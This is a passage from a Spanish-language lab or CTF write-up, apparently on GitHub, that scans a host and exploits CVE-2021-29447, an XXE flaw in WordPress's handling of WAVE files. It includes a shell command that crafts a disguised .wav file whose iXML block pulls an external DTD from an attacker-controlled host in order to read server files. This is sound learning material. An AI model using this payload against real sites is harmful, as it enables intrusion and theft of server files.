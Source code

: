```
|   Salt: L\x08?\x1Ah*xHh0Q%=LkB>t'C
|_  Auth Plugin Name: mysql_native_password
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=MySQL_Server_5.7.33_Auto_Generated_Server_Certificate
| Not valid before: 2021-05-26T21:23:31
|_Not valid after:  2031-05-24T21:23:31
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Puertos expuestos:

`22:ssh`
`80:http`
`3306:mysql`


Procedemos a entrar al panel de login `wordpress` con las credenciales que nos dieron.

<img width="1919" height="787" alt="Image" src="https://github.com/user-attachments/assets/012bdfd7-2be4-42a1-96dd-3aa7eb82b73a" />

## Explotación de CVE-2021-29447 en WordPress

El **CVE-2021-29447** corresponde a una vulnerabilidad en WordPress (reportada en abril 2021) relacionada con el **procesamiento inseguro de metadatos XML en archivos de audio WAVE**.

- Los archivos `.wav` pueden contener un bloque especial llamado **iXML**.
- Este bloque está pensado para guardar metadatos en formato XML (información de grabación, notas, etc.).
- El problema es que WordPress (hasta la versión 5.7.1) usaba una librería que **parseaba ese bloque XML sin restricciones**, lo que significaba que **permitía declaraciones `DOCTYPE` y entidades externas (XXE)**.

 Resultado: un atacante podía subir un `.wav` aparentemente válido, pero con un payload XML incrustado en `iXML`. Cuando WordPress procesaba ese bloque, terminaba ejecutando instrucciones que **podían leer archivos locales** (ej. `/etc/passwd`) o incluso hacer que el servidor hiciera **peticiones HTTP** hacia afuera (SSRF).


# Explotacion

 construí un archivo `.wav` que pareciera legítimo, pero con un payload incrustado en su sección `iXML`.
 
Al generar el archivo, me aseguré de que pasara un test superficial (`file malicioso.wav` lo reconocía como un archivo WAVE válido), lo que confirmaba que, a ojos de WordPress, no levantaría sospechas en el filtro de tipo de archivo.

El contenido embebido en la cabecera XML hacía referencia a una entidad externa (`malicia.dtd`) que yo controlaba. Esta DTD sería la que le daría al parser las instrucciones para acceder a archivos internos del servidor.

```bash
(zikuta㉿zikuta)-[~/Desktop/Wordpress_CVE-2021-29447]
└─$ echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM '"'"'http://10.23.120.245:4444/malicia.dtd'"'"'>%remote;%init;%trick;]>\x00' > malicioso.wav
                                                                                                                                                                                                                 
┌──(zikuta㉿zikuta)-[~/Desktop/Wordpress_CVE-2021-29447]
└─$ file malicioso.wav
malicioso.wav: RIFF (little-endian) data, WAVE audio
```
